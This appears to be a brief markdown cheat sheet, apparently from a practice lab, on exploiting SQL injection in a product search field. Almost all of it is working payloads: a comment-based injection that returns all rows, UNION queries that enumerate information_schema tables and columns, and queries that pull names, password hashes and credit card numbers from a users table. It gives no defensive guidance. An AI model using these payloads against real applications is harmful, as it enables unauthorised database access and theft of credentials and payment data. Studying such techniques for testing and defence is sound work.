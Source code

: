 # SQL-Injection

Search for any products (or not)

## Basic

#### First, think how the query might look like:

`SELECT ? FROM ? WHERE ? LIKE '%something%'`

#### Make query return everything:
` '; -- `

#### This will lead to something like this:
`SELECT ? FROM ? WHERE ? LIKE '%'; -- `

#### UNION Statement

`SELECT ?, ?, ? FROM ? WHERE ? LIKE '%Stark' UNION (SELECT 1,2,3 FROM dual); --`

#### UNION Statement for retrieving database tables

`SELECT ?, ?, ? FROM ? WHERE ? LIKE '%Stark' UNION (SELECT TABLE_NAME, table_schema, 3 FROM information_schema.tables); --`

#### UNION Statement - accessing a table
`SELECT ?, ?, ? FROM ? WHERE ? LIKE '%Stark' UNION (SELECT COLUMN_NAME, 2, 3 FROM information_schema.columns WHERE TABLE_NAME = 'users'); --`

#### get the hashed passwords
`SELECT ?, ?, ? FROM ? WHERE ? LIKE '%Stark' UNION (SELECT firstname, lastname, password FROM users); --`

#### Get credit_card_details
`SELECT ?, ?, ? FROM ? WHERE ? LIKE '%Stark' UNION (SELECT lastname, creditcardnumber, institute FROM users); --`


